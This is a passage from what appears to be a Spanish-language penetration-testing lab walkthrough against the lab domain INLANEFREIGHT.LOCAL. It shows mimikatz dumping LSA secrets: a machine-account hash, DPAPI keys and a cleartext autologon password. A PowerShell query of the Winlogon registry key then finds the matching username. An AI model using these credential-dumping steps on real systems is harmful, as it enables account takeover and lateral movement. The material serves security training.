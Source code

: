 ```r
mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc

Local name : ACADEMY-AEN-MS0 ( S-1-5-21-1020326033-369054202-3290056218 )
Domain name : INLANEFREIGHT ( S-1-5-21-2814148634-3729814499-1637837074 )
Domain FQDN : INLANEFREIGHT.LOCAL

Policy subsystem is : 1.18
LSA Key(s) : 1, default {13764b01-b89c-8adf-69ec-8937ee43821e}
  [00] {13764b01-b89c-8adf-69ec-8937ee43821e} 587be7dcfb75bb9ebb0c5c75cf4afb4488e602f9926f3404a09ecf8ba20b04e7

Secret  : $MACHINE.ACC
cur/text: -2d"GC)[+6,[+mC+UC5KXVoH>j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(<7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8
old/text: -2d"GC)[+6,[+mC+UC5KXVoH>j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(<7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8

Secret  : DefaultPassword
cur/text: DBAilfreight1!

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 37 62 35 26 80 4c 6b 2f 11 ca 06 25 ab 97 21 3f 84 f8 74 fa bc 69 a1 c4 37 2b df f8 cd 6c 8f 0a 8a d9 67 e9 42 cf 4f 96
    full: 37623526804c6b2f11ca0625ab97213f84f874fabc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
    m/u : 37623526804c6b2f11ca0625ab97213f84f874fa / bc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
old/hex : 01 00 00 00 51 9c 86 b4 cb dc 97 8b 35 9b c0 39 17 34 16 62 31 98 c1 07 ce 7d 9f 94 fc e7 2c d9 59 8a c6 07 10 78 7c 0d 9a 56 ce 0b
    full: 519c86b4cbdc978b359bc039173416623198c107ce7d9f94fce72cd9598ac60710787c0d9a56ce0b
    m/u : 519c86b4cbdc978b359bc039173416623198c107 / ce7d9f94fce72cd9598ac60710787c0d9a56ce0b

Secret  : NL$KM
cur/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
old/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
```

Encontramos una contraseña configurada pero sin nombre de usuario asociado. Esto parece ser para una cuenta configurada con autologon, así que podemos consultar el Registro para encontrar el nombre de usuario.

  Share Hunting

```r
PS C:\Users\ilfserveradm> Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"

DefaultUserName : mssqladm
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
                  NT\CurrentVersion\Winlogon\
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
PSChildName     : Winlogon
PSDrive         : HKLM
PSProvider      : Microsoft.PowerShell.Core\Registry
```
